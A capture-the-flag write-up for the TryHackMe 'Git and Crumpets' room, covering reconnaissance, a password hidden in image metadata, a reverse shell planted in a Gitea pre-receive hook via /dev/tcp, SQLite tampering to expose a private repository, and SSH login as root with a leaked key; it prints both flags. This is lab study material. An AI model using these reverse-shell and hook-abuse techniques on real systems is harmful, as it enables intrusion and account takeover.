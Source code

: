 # TryHackMe [Git and Crumpets](https://www.tryhackme.com/room/gitandcrumpets)
### References
* Bertrand, A. (2021, April 16). Git and Crumpets - TryHackMe. blog.hydrashead.net. https://blog.hydrashead.net/posts/thm-git-and-crumpets/
* siddicky. (2021, July 3). siddicky/git-and-crumpets. GitHub. https://github.com/siddicky/git-and-crumpets
## Reconnaissance
1. `nmap`:
```bash
$ nmap -sV -vv <MACHINE_IP>
PORT     STATE  SERVICE    REASON       VERSION
22/tcp   open   ssh        syn-ack      OpenSSH 8.0 (protocol 2.0)
80/tcp   open   http       syn-ack      nginx
9090/tcp closed zeus-admin conn-refused
```
2. `curl <MACHINE_IP>`:
```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Go away!</title>
  </head>
  <body>
    <main>
      <h1>Nothing to see here, move along</h1>
      <h2>Notice:</h2>
      <p> 
        Hey guys,
           I set up the dev repos at git.git-and-crumpets.thm, but I haven't gotten around to setting up the DNS yet. 
           In the meantime, here's a fun video I found!
        Hydra
      </p>
      <pre>
Never gonna give you up,
            Never gonna let you down...
      </pre>
    </main>
  </body>
</html>
```
   * Add `<MACHINE_IP> git.git-and-crumpets.thm` to your `/etc/hosts` file.
3. `scones`' does not seem to be careful with his passwords:
![password-related commit](commits.jpg)
4. `scones`' profile picture contains his password, his email is mentioned as `withcream@example.com` in his profile:
```bash
$ wget http://git.git-and-crumpets.thm/avatars/3fc2cde6ac97e8c8a0c8b202e527d56d -O 3fc2cde6ac97e8c8a0c8b202e527d56d.png
$ exiftool 3fc2cde6ac97e8c8a0c8b202e527d56d.png 
ExifTool Version Number         : 12.26
File Name                       : 3fc2cde6ac97e8c8a0c8b202e527d56d.png
Directory                       : .
File Size                       : 279 KiB
File Modification Date/Time     : 2021:04:16 02:13:00+10:00
File Access Date/Time           : 2021:07:06 15:07:34+10:00
File Inode Change Date/Time     : 2021:07:06 15:07:34+10:00
File Permissions                : -rw-r--r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 290
Image Height                    : 290
Bit Depth                       : 16
Color Type                      : RGB
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Description                     : My 'Password' should be easy enough to guess
Image Size                      : 290x290
Megapixels                      : 0.084
```

## User Flag
1. Sign-in as `scones` and edit the `pre-receive` `git` hook at `scones/cant-touch-this` with `/bin/bash -i >& /dev/tcp/<OPENVPN_IP>/1234 0>&1` in order to create a reverse shell to your machine before receiving a `git`-related update.
2. Open a listener for the port you wrote in the `git` hook (1234 in this case), and make a change to a file at `scones/cant-touch-this`:
```bash
$ nc -lvnp 1234
[git@git-and-crumpets cant-touch-this.git]$ pwd
/var/lib/gitea/data/gitea-repositories/scones/cant-touch-this.git
```
3. The user flag is in the home directory and is Base64-encoded:
```bash
[git@git-and-crumpets cant-touch-this.git]$ cd
[git@git-and-crumpets ~]$ ls -la
total 20
drwx------. 3 git  git  129 Apr 15 17:04 .
drwxr-xr-x. 4 root root  35 Apr 14 09:37 ..
lrwxrwxrwx. 1 git  git    9 Apr 15 17:04 .bash_history -> /dev/null
-rw-r--r--. 1 git  git   18 Jul 21  2020 .bash_logout
-rw-r--r--. 1 git  git  141 Jul 21  2020 .bash_profile
-rw-r--r--. 1 git  git  376 Jul 21  2020 .bashrc
-rw-r--r--. 1 git  git  162 Apr 14 09:56 .gitconfig
drwx------. 2 git  git   29 Apr 14 10:37 .ssh
-r--------. 1 git  git   53 Apr 15 16:53 user.txt
[git@git-and-crumpets ~]$ cat user.txt
dGhte2ZkN2FiOWZmZDQwOTA2NGYyNTdjZDcwY2YzZDZhYTE2fQ==
[git@git-and-crumpets ~]$ cat user.txt | base64 -d
thm{fd7ab9ffd409064f257cd70cf3d6aa16}
```

**User Flag**: `thm{fd7ab9ffd409064f257cd70cf3d6aa16}`
## Root Flag
1. The reverse shell's initial directory was at `/var/lib/gitea/data`, which contains an SQLite database at the `gitea.db` file:
```bash
[git@git-and-crumpets gitea]$ cd /var/lib/gitea/data
[git@git-and-crumpets data]$ ls -la
total 1288
drwxr-x---. 11 git git     170 Jul  6 07:25 .
drwxr-xr-x.  5 git git      57 Apr 15 13:12 ..
drwxr-xr-x.  2 git git       6 Apr 14 09:56 attachments
drwxr-xr-x.  3 git git     217 Jul  6 07:01 avatars
drwxr-xr-x.  5 git git      45 Apr 15 15:50 gitea-repositories
-rw-r--r--.  1 git git 1318912 Jul  6 07:25 gitea.db
drwxr-xr-x.  4 git git      46 Apr 14 09:56 indexers
drwxr-xr-x.  2 git git       6 Apr 14 09:56 lfs
drwxr-xr-x.  7 git git     114 Apr 14 09:56 queues
drwxr-xr-x.  2 git git       6 Apr 14 09:56 repo-avatars
drwx------. 14 git git     114 May 22 22:38 sessions
drwxr-xr-x.  3 git git      24 Jul  6 07:20 tmp
```
2. The database has a `repository` table:
```sql
[git@git-and-crumpets ~]$ sqlite3 gitea.db
sqlite> .tables
access                     org_user                 
access_token               project                  
action                     project_board            
attachment                 project_issue            
collaboration              protected_branch         
comment                    public_key               
commit_status              pull_request             
deleted_branch             reaction                 
deploy_key                 release                  
email_address              repo_indexer_status      
email_hash                 repo_redirect            
external_login_user        repo_topic               
follow                     repo_transfer            
gpg_key                    repo_unit                
gpg_key_import             repository               
hook_task                  review                   
issue                      session                  
issue_assignees            star                     
issue_dependency           stopwatch                
issue_label                task                     
issue_user                 team                     
issue_watch                team_repo                
label                      team_unit                
language_stat              team_user                
lfs_lock                   topic                    
lfs_meta_object            tracked_time             
login_source               two_factor               
milestone                  u2f_registration         
mirror                     upload                   
notice                     user                     
notification               user_open_id             
oauth2_application         user_redirect            
oauth2_authorization_code  version                  
oauth2_grant               watch                    
oauth2_session             webhook
```
3. The `repository` table has a `is_private` column that sets the public visibility of a specific repository:
```sql
sqlite> SELECT * FROM repository;
2|2|root|backup|backup|||0||master|1|0|0|0|0|0|0|0|0|0|0|1|0|0|0|0|0|0|0|0|25612|1|0|null|0||1618493101|1618494415
3|3|scones|cant-touch-this|cant-touch-this|Stop! Hammer time!||0||master|1|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|25958|1|0|null|0||1618494644|1625549065
4|1|hydra|hello-world|hello-world|Hello World||0||master|1|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|23233|1|0|null|0||1621615239|1621615240
sqlite> SELECT sql FROM sqlite_master WHERE type='table' AND tbl_name='repository';
CREATE TABLE `repository` (`id` INTEGER PRIMARY KEY AUTOINCREMENT NOT NULL, `owner_id` INTEGER NULL, `owner_name` TEXT NULL, `lower_name` TEXT NOT NULL, `name` TEXT NOT NULL, `description` TEXT NULL, `website` TEXT NULL, `original_service_type` INTEGER NULL, `original_url` TEXT NULL, `default_branch` TEXT NULL, `num_watches` INTEGER NULL, `num_stars` INTEGER NULL, `num_forks` INTEGER NULL, `num_issues` INTEGER NULL, `num_closed_issues` INTEGER NULL, `num_pulls` INTEGER NULL, `num_closed_pulls` INTEGER NULL, `num_milestones` INTEGER DEFAULT 0 NOT NULL, `num_closed_milestones` INTEGER DEFAULT 0 NOT NULL, `num_projects` INTEGER DEFAULT 0 NOT NULL, `num_closed_projects` INTEGER DEFAULT 0 NOT NULL, `is_private` INTEGER NULL, `is_empty` INTEGER NULL, `is_archived` INTEGER NULL, `is_mirror` INTEGER NULL, `status` INTEGER DEFAULT 0 NOT NULL, `is_fork` INTEGER DEFAULT 0 NOT NULL, `fork_id` INTEGER NULL, `is_template` INTEGER DEFAULT 0 NOT NULL, `template_id` INTEGER NULL, `size` INTEGER DEFAULT 0 NOT NULL, `is_fsck_enabled` INTEGER DEFAULT 1 NOT NULL, `close_issues_via_commit_in_any_branch` INTEGER DEFAULT 0 NOT NULL, `topics` TEXT NULL, `trust_model` INTEGER NULL, `avatar` TEXT NULL, `created_unix` INTEGER NULL, `updated_unix` INTEGER NULL)
sqlite> UPDATE repository SET is_private=0 WHERE id=2;
sqlite> SELECT * FROM repository;
2|2|root|backup|backup|||0||master|1|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|25612|1|0|null|0||1618493101|1618494415
3|3|scones|cant-touch-this|cant-touch-this|Stop! Hammer time!||0||master|1|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|25958|1|0|null|0||1618494644|1625549065
4|1|hydra|hello-world|hello-world|Hello World||0||master|1|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|23233|1|0|null|0||1621615239|1621615240
```
4. By making the private repository public, the `root/backup` repository had SSH-related commit submitted to it:
![back-up repository](backup_repo.jpg)
5. The commit contains an SSH private key (http://git.git-and-crumpets.thm/root/backup/commit/0b23539d97978fc83b763ef8a4b3882d16e71d32).
   * After downloading the provate key, make sure to add an empty line at the end (if there isn't one already) and enable the proper SSH read permissions on that file with `chmod 600 Sup3rS3cur3`.
6. The private key passphrase turns out to be the name of the file:
   * The root flag is located in the `root`'s home directory and is also Base64-encoded.
```bash
$ ssh root@<MACHINE_IP> -i Sup3rS3cur3
Enter passphrase for key 'Sup3rS3cur3': Sup3rS3cur3
[root@git-and-crumpets ~]# ls
anaconda-ks.cfg  root.txt
[root@git-and-crumpets ~]# cat root.txt
dGhtezYzMjAyMjhkZDllMzE1ZjI4M2I3NTg4NzI0MGRjNmExfQ==
[root@git-and-crumpets ~]# cat root.txt | base64 -d
thm{6320228dd9e315f283b75887240dc6a1}
```

**Root Flag**: `thm{6320228dd9e315f283b75887240dc6a1}`